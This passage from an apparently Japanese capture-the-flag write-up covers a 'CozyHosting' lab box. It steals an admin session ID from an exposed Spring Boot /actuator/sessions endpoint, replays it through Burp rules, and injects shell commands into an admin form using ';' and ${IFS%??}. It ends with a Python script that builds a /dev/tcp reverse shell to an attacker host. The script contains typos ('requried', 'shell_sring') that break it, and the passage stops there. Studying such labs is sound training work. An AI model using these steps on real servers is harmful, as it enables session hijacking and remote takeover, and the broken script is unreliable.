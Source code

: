 ### 2.3 Spring ActuatorsへのAuthenticaton Bypass

#### (1) /actuator/sessions からのセッションID入手

`/actuator/*`というディレクトリについて検索すると、Spring Bootで使用していること、そして[HackTricks - Spring Actuators](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/spring-actuators)に攻撃のアプローチ方法が記載されていることがわかる。

![](./img/CozyHosting05.png)

このサイトを見ていくと、`/actuators/sessions`からセッションIDを入手できることが分かった。
実際に`/actuator/sessions`にアクセスすると`kanderson`ユーザのセッションIDを入手できた。

![](./img/CozyHosting06.png)

#### (2) セッションIDをSpoofingしてのログイン

先のログイン画面からログインする際に、`Cookie: JSESSIONID=...`という形でセッションIDを埋め込んでいるのがわかる。

![](./img/CozyHosting09.png)

そこで、この`JSESSIONID`をspoofingするようにBurpを設定していく。

まずは、Scopeをcozyhosting.htbに設定する。

![](./img/CozyHosting10.png)

次に、Match and replace rulesで、画面のように設定し、自動的に`JSESSIONID`が`/actuators/sessions`の`kanderson`の値になるように設定する。

![](./img/CozyHosting11.png)

以上を設定すると http://cozyhosting.htb/admin にアクセスできる。

---

## 3. Web ApplicationへのOS Command Injection

`http://cozyhosting.htb/admin`にアクセスすると図のように指定したホストの`.ssh/authorzed_keys`をincludeするためのフォームがある。

![](./img/CozyHosting12.png)

[HackTricks - Spring Actuators](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/spring-actuators)の"SSRF on Spring Boot Through Incorrect Pathname Interpretation"に記載の通り、Springフレームワークは複数のパラメータを`;`により分割できると書いてある。
そこで、Usernameに`;`を加えてシェルコードを挿入する。
また、半角スペースを入れることはできないため、`${IFS%??}`で組み立てる。
以上を整理してシェルコードを生成するスクリプトを作成した。

```python
import base64
import argparse
import urllib.parse

parser = argparse.ArgumentParser(description="Generate shellcode script")
parser.add_argument("--lhost", type=str, requried=True, help="Local host's ip address")
parser.add_argument("--lport", type=str, required=True, help="Local port for reverse shell")

args = parser.parse_args()
lhost = args.lhost
lport = args.lport

shell_string = f"sh -i >& /dev/tcp/{lhost}/{lport} 0>&1\n"
print("Original shell code >> ")
print('    ', shell_sring)

```